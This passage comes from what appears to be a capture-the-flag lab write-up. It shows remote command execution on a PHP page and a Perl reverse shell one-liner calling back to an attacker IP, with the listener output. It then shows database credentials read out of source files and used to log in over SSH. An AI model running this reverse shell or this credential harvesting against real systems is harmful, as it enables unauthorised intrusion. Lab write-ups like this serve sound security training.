 It seems I got a valid login and a session cookie, let's put that in Firefox and see if I can issue commands on `page.php`:

![](/assets/images/htb-writeup-ctf/cmdpage_success.png)

Nice, I got RCE now.

### Getting a shell

I can easily get a shell with a standard perl reverse shell payload:

`perl -e 'use Socket;$i="10.10.14.23";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.122] 34436
sh: no job control in this shell
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

I don't have a lot of privileges though. I'll have to escalate to another user before I can find `user.txt`:
```
sh-4.2$ cd /home
cd /home
sh-4.2$ ls
ls
ls: cannot open directory .: Permission denied
```

I can read source files from the PHP application and find the password for ldapuser:
```
sh-4.2$ cat login.php
<!doctype html>
<?php
session_start();
$strErrorMsg="";

$username = 'ldapuser';
$password = 'e398e27d5c4ad45086fe431120932a01';
```

I'm now able to SSH in with those credentials and get `user.txt`:
```
# ssh ldapuser@10.10.10.122
ldapuser@10.10.10.122's password: 
[ldapuser@ctf ~]$ cat user.txt
74a8e8...
```

### Privesc
